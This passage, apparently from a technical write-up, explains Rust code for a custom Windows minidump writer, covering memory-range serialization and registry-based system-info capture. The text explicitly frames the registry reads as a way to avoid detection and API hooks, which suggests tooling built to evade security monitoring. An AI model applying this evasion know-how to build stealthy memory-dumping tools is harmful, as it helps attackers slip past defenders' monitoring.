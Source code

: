 ```rust

for idx in 1..self.memory_ranges.len() {
    let mem = &mut self.memory_ranges[idx];
    mem.serialize(buf);
}

```

### content phase

```rust

pub(crate) fn fixup(&mut self, buf: &mut Vec<u8>) {
    println!("Memory dmp start actually is {:#x}", buf.len());
    for idx in 0..self.memory_ranges.len() {
        let mem = &self.memory_ranges[idx];
        buf.extend_from_slice(mem.bytes.as_slice());
    }
}

```

this two-phase approach ensures that all memory descriptors are contiguous in the file, followed by all memory contents, making the dump file efficiently parseable.

## system information capture

the system information capture process is more complex than simply querying API functions. to avoid detection and API hooks, we directly query the registry.

### `MinidumpSystemInfoR`: directly querying registry

```rust

pub(crate) struct MinidumpSystemInfoR {
    pub(crate) processor_architecture: u16,
    pub(crate) processor_level: u16,
    pub(crate) processor_revision: u16,
    pub(crate) number_of_processors: u8,
    pub(crate) product_type: u8,
    pub(crate) major_version: u32,
    pub(crate) minor_version: u32,
    pub(crate) build_number: u32,
    pub(crate) platform_id: u32,
    pub(crate) csd_version_rva: RVA32<MINIDUMP_STRING>,
    // ... additional fields
}

```

the version information is obtained through direct registry access.

```rust

fn get_likely_os_ver() -> OSVERSIONINFOEXW {
    let mut hkey = HKEY::default();
    let ntstat = unsafe {
        RegOpenKeyExA(
            HKEY_LOCAL_MACHINE,
            PCSTR::from_raw("SOFTWARE\\Microsoft\\Windows NT\\CurrentVersion\0".as_ptr()),
            0,
            KEY_READ | KEY_QUERY_VALUE,
            &mut hkey,
        )
    };
```